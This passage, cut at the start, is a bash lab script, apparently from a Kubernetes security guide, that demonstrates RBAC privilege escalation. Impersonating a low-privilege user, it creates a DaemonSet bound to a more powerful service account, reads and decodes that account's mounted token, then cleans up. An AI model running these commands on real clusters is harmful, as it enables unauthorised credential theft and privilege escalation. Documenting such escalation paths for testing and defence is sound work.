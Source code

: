 ```bash
  name: test-cr
  apiGroup: rbac.authorization.k8s.io
---
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: alpine
  namespace: default
spec:
  selector:
    matchLabels:
      name: alpine
  template:
    metadata:
      labels:
        name: alpine
    spec:
      automountServiceAccountToken: false
      hostNetwork: true
      containers:
      - name: alpine
        image: alpine
        command: ['/bin/sh']
        args: ['-c', 'sleep 100']' | kubectl apply -f -

# Check user User can get pods in namespace default
kubectl --as Test -n default get daemonsets

# Create a daemonset as user Test with the SA test-sa (privesc step)
echo "apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: alpine
  namespace: default
spec:
  selector:
    matchLabels:
      name: alpine
  template:
    metadata:
      labels:
        name: alpine
    spec:
      serviceAccountName: test-sa
      automountServiceAccountToken: true
      hostNetwork: true
      containers:
      - name: alpine
        image: alpine
        command: ['/bin/sh']
        args: ['-c', 'sleep 100000']"| kubectl --as Test apply -f -

# Connect to the pod created an confirm the attached SA token belongs to test-sa
kubectl exec -ti -n default daemonset.apps/alpine -- cat /var/run/secrets/kubernetes.io/serviceaccount/token | cut -d "." -f2 | base64 -d

# Clean the scenario
kubectl delete daemonset alpine
kubectl delete clusterrolebinding test-crb
kubectl delete clusterrole test-cr
kubectl delete rolebinding test-rb
kubectl delete role test-r
kubectl delete serviceaccount test-sa
```